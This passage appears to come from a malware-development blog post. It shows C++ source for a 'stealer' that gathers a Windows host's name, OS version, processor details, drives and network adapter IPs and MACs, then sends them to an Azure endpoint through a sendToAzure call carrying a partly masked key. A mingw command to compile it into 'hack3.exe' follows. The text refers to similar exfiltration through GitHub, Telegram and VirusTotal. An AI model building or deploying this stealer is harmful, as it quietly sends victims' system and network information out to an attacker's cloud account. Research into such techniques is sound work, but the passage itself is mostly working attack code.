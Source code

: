 ```cpp
  osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
  GetVersionEx(&osVersion);

  SYSTEM_INFO sysInfo;
  GetSystemInfo(&sysInfo);

  DWORD drives = GetLogicalDrives();

  IP_ADAPTER_INFO adapterInfo[16];
  DWORD adapterInfoSize = sizeof(adapterInfo);
  GetAdaptersInfo(adapterInfo, &adapterInfoSize);

  snprintf(systemInfo, sizeof(systemInfo),
    "Host Name: %s\n"
    "OS Version: %d.%d.%d\n"
    "Processor Architecture: %d\n"
    "Number of Processors: %d\n"
    "Logical Drives: %X\n",
    hostName,
    osVersion.dwMajorVersion, osVersion.dwMinorVersion, osVersion.dwBuildNumber,
    sysInfo.wProcessorArchitecture,
    sysInfo.dwNumberOfProcessors,
    drives);

  for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
    snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
      "Adapter Name: %s\n"
      "IP Address: %s\n"
      "Subnet Mask: %s\n"
      "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X\n\n",
      adapter->AdapterName,
      adapter->IpAddressList.IpAddress.String,
      adapter->IpAddressList.IpMask.String,
      adapter->Address[0], adapter->Address[1], adapter->Address[2],
      adapter->Address[3], adapter->Address[4], adapter->Address[5]);
  }

  sendToAzure("hack1", "9...CAAAAAAAAAAAAASAZDOOcAA", "meow2", systemInfo);
  return 0;
}
```

As you can see, this source code is pretty similar my Github, Telegram and VirusTotal scenarios.     

### demo 3

Compile stealer example:     

```bash
x86_64-w64-mingw32-g++ hack3.c -o hack3.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lwinhttp
```
